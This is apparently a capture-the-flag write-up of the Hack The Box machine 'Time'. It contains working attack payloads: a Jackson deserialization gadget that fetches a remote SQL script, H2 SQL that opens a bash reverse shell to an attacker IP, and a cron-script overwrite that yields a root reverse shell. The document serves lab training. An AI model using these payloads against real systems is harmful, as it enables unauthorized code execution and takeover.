 ```yaml
---
coverY: 0
---
```


# 📦 HTB: Time – Deserialization, Java Shenanigans & Root in Style

<figure><img src="../.gitbook/assets/ChatGPT Image Jun 2, 2025, 09_27_03 AM.png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
_This medium-difficulty HTB box was a great lesson in one thing:_\
**Read the damn error. Then research it like your shell depends on it.**
{% endhint %}

### 🧭 Enumeration

#### 🔍 Nmap Scan

As always, I began with a full enumeration sweep:

```
nmap -Pn -n -A --reason -vvv -oN nmap/00-basic.txt -iL target.txt
```

**Findings:**

* **Port 22**: OpenSSH 8.2p1 (Ubuntu)
* **Port 80**: Apache 2.4.41 hosting a web server titled _"Online JSON Parser"_

### 🕸 Recon

The website was a **JSON beautifier** — harmless-looking, but CTFs don’t give you port 80 unless they want you to do _evil developer things_.

I ran `hakrawler` to check for juicy endpoints:

```
cat url.txt | hakrawler -proxy http://localhost:8080 -subs -d 5 -insecure -s -json >hakrawler.json
```

No admin panel. No hidden paths. But what caught my eye was how it **handled malformed JSON**...

### 💥 Exploitation – Jackson Deserialization RCE

Normal JSON works:

<figure><img src="../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

```
{"test":"hello"}
```

But malformed input returned this beauty:![](<../.gitbook/assets/ChatGPT Image Jun 2, 2025, 09_27_03 AM.png>)

> `Unhandled Java exception: com.fasterxml.jackson.databind.exc.MismatchedInputException`

> _Expected START\_ARRAY, got START\_OBJECT…_\
> &#xNAN;_"need JSON Array to contain As.WRAPPER\_ARRAY type information..."_

**Boom. Jackpot.**\
That’s **Jackson Deserialization**.



<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I dug into this article that became my savior:\
🔗 [https://blog.doyensec.com/2019/07/22/jackson-gadgets.html](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html)

#### 🧪 Payload Time

```
["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.14.8:8000/inject.sql'"}]
```

* 📄 `inject.sql` – Weaponized

```
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
	String[] command = {"bash", "-c", cmd};
	java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
	return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash -i >& /dev/tcp/10.10.14.8/4444 0>&1')
```

```
nc -lvnp 4444
```

<figure><img src="../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

💥 **Reverse shell obtained!**

### 🧍 Local Privilege Escalation – Timer Shenanigans

After running `linpeas`, I found something gold:

* /usr/bin/timer\_backup.sh run as root every 10 seconds

```
echo "bash -i >& /dev/tcp/10.10.14.8/9000 0>&1" > /usr/bin/timer_backup.sh
```

```
nc -lvnp 9000
```

📈 Got root. Simple, clean, and elegant.

{% embed url="https://www.hackthebox.com/achievement/machine/409699/286" %}

## References

* https://github.com/lorenzodegiorgi/jackson-vulnerability
* https://github.com/FasterXML/jackson/wiki/Jackson-Polymorphic-Deserialization-CVE-Criteria
* https://adamcaudill.com/2017/10/04/exploiting-jackson-rce-cve-2017-7525/
* https://www.youtube.com/watch?v=uS37TujnLRw
* https://blog.doyensec.com/2019/07/22/jackson-gadgets.html

## 🧠 Final Thoughts

What made **HTB: Time** stand out wasn’t the difficulty of the exploit. It was the **importance of interpreting Java errors and knowing what to Google.**

➡️ _Lesson:_ Sometimes the error **is** the clue.

This box was a smooth ride with:

* 🔍 Deep Java debugging
* 🧬 Deserialization abuse
* 📅 Scheduled script escalation

And that's a wrap! Time box — rooted. ✅
